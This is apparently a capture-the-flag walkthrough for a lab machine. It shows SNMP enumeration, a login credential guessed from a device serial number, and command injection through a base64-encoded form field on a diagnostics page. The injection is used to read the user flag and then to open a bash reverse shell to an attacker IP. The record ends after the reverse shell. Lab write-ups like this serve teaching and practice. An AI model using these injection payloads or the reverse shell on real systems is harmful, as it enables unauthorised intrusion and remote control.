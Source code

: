 SNMP enumeration:
{% highlight shell %}
root@kali:~# snmpwalk -c public -v1 10.10.10.105
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
{% endhighlight %}

### 2.Getting User
What we can find on port 80 is login console of Lyghtspeed with some Error.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-19/2019-03-19-20-09-30.png)

By looking at "/doc/error_codef.pdf", we can figure out what these error code means and there is an interesting line.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-19/2019-03-19-20-11-45.png)

At the same time, we can find interesting information at "/doc/diagram_for_tac.png".<br>
We will use this information later.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-19/diagram_for_tac.png)

We can guess like "SN" stands for "serial number".<br>
If we try some petterns of info from SNMP, we can find this credential for Lyghtspeed
{% highlight shell %}
admin:NET_45JDX23
{% endhighlight %}

After logged in, we can find an interesting page /diag.php.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-19/2019-03-19-20-13-46.png)

Sounds like if we click "verify status" button, we have a result of linux command.<br>
The value which we post is base64 encoded.
{% highlight html %}
<input type="hidden" id="check" name="check" value="cXVhZ2dh">
<div class="form-group">
    <button type="submit" class="btn btn-primary">
{% endhighlight %}

Decoded value of "cXVhZ2dh" is "quagga" and This can be RCE vulnerability.<br>
By sending arbitrary code, we can achieve user.txt.
{% highlight shell %}
check=aHR0cDtpZDtjYXQgL3Jvb3QvdXNlci50eHQgIyA=
# http;id;cat /root/user.txt # 
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-19/2019-03-19-10-09-46.png)

### Getting Root
By taking advantage of this RCE, we can easily achieve reverse shell.
{% highlight shell %}
check=aHR0cDtpZDtiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIzLzQ0MyAwPiYxICMg
# http;id;bash -i >& /dev/tcp/10.10.14.23/443 0>&1 # 
{% endhighlight%}
